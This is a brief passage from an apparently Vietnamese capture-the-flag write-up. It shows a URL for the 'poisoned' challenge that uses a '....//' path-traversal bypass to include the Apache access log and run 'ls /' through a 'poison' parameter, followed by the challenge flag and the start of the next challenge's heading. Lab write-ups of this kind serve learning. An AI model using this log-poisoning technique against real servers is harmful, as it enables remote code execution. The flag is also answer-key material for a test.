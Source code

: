 Tiếp theo chỉ cần truy cập: https://jerseyctf-poisoned.chals.io/?page=....//....//....//....//....//....//....//var/log/apache2/access.log&poison=ls%20/ để thực thi mã

![img](./images/11.png)

flag: jctf{4PachE_L0G_POiS0nInG}




# sho-me-how-to-mine
MISC

614 Point

## Description
